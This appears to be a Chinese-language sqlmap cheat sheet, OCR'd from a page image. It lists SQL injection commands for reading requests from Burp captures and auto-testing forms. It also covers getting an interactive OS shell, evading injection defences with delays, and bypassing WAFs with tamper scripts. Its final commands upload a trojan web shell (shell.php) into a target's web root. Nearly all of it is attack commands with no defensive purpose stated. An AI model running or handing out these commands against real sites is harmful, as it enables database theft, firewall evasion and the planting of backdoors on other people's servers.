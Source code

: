 ```
sqlmap -r burp拦截数据.txt -p Pass(测试参数) //从文件读取数据包

sqlmap -u http://testasp.vulnweb.com/Login.asp  --forms //自动搜索表单

sqlmap -u http://testasp.vulnweb.com/Login.asp  --data "Name=1&Pass=1"  //手动添加数据
```

**获取系统交互shell**

```
1.sqlmap -u http://url.. --os-shell  //或者windows可以用--os-cmd 或--sql-shell

2.选择网站服务端语言

3.填写网站根目录C:/www/
```

**伪静态注入**

```
sqpmap  -u http://victim.com/id/666*.html --dbs  //在html扩展名前加个'*'
```

**请求延时**

Web防注入措施，在访问两次错误页面后，第三次必须访问正确的页面

```
--delay 2 //延时两秒访问

--safe-freq 30  //人为配置次数
```

**绕过WAF防火墙**

```
sqlmap -u http://192.168.159.1/news.php?id=1 -v 3 --dbs --batch

--tamper "space2morehash.py" //使用tamper脚本绕过

类似脚本

space2hash.py base64encode.py charencode.py
```

**file参数使用**

必须为dba权限

```
sqlmap -u url --is-dba  //查看是否dba权限

sqlmap -u url --file-write=本地木马路径(D:/shell.php)

--file-dest=目标根目录(C:/www/shell.php)
```

**Tamper**
